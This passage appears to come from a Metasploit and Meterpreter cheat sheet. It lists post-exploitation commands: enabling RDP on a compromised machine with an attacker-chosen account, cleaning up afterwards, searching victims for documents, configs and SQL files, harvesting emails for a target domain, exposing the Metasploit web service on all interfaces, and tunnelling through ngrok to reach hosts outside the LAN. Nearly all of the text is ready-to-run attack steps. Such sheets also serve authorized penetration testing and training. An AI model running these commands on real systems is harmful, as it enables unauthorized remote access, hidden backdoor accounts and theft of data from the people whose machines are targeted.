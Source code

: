Enable RDP:

```
meterpreter > run getgui -u rosesecurity -p password
```

Cleanup RDP:

```
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
```

Run modules against file of hosts:

```
msf6> set RHOSTS file:/tmp/nmap_output_hosts.txt
```

Search for interesting files:

```
meterpreter> search -f *.txt
meterpreter> search -f *.zip
meterpreter> search -f *.doc
meterpreter> search -f *.xls
meterpreter> search -f config*
meterpreter> search -f *.rar
meterpreter> search -f *.docx
meterpreter> search -f *.sql
```

Metasploit Web Server Interface:

Start the web service, listening on any host address:

```
# msfdb --component webservice --address 0.0.0.0 start
```



Metasploit Email Harvesting:

```
msf6 auxiliary(gather/search_email_collector) > set OUTFILE /tmp/emails.txt
OUTFILE => /tmp/emails.txt
msf6 auxiliary(gather/search_email_collector) > set DOMAIN target.com
DOMAIN => target.com
msf6 auxiliary(gather/search_email_collector) > run

[*] Harvesting emails.....
```

Attack outside of the LAN with ngrok:

First step, set up a free account in ngrok then start ngrok:

```
./ngrok tcp 9999

# Forwarding tcp://0.tcp.ngrok.io:19631 -> localhost:9999
```
